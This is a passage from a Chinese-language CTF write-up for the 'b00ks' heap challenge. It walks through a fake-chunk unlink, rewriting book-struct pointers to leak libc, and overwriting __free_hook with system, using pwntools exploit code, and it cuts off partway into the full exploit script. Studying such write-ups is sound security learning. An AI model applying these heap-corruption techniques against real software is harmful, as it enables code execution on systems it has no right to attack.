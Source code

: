 ```
double free or corruption (!prev)
```

原因就是系统根据当前 chunk size 找下一个 chunk 的 prev_inuse 标志，然后我们覆盖之后改变的不只是 prev_inuse 整个size 都变了，找到的 next_chunk 也是错的。

**chunk6**

用来修改 \_\_free_hook 。如果使用 system 将 book name 写入为 /bin/sh 就行了；使用 one_gadget 不需要。

###### 在 chunk4 内伪造一个堆

用的是**现代 unlink** 实现的效果是： *ptr = ptr-0x18 。

```python
ptr = heap_base + 0x1180# target addr
log.info("ptr:"+hex(ptr))
payload = p64(0)+p64(0x201)+ p64(ptr-0x18) + p64(ptr-0x10) 
payload += '\x00'*0x1e0+p64(0x200)
edit(4,payload)
remove(5)# unlink *ptr = ptr-0x18
```

unlink 之后 chunk4 desc 指针将会指向结构体自身的某个地方，具体看图调试：

![](https://mrskye.cn-gd.ufileos.com/img/2020-07-31-2MaGieFQy9X5xBZB.png)

###### 修改chunk4结构体

我选择将 book4 name 修改为存储 libc 的内存地址（也就是 book4 desc 某处）、book4 desc 修改为 chunk6 desc 指针地址。

```python
payload = p64(0x31)+p64(0x4)+p64(heap_base+0x11e0)+p64(heap_base+0x10c0)
edit(4,payload)

show()
```

###### 修改 \_\_free_hook

```python
payload = p64(free_hook)
edit(4,payload)

payload = p64(system)
edit(6,payload)
```

##### exp

```python
from pwn import *
context.log_level = 'info'

p = process("./b00ks")
elf = ELF("./b00ks")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create(book_size, book_name, desc_size, desc):
    p.recvuntil(">")
    p.sendline(str(1))
    p.sendlineafter(": ", str(book_size))

    p.recvuntil(": ")
    p.sendline(book_name)

    p.recvuntil(": ")
    p.sendline(str(desc_size))
    p.sendline(desc)

```
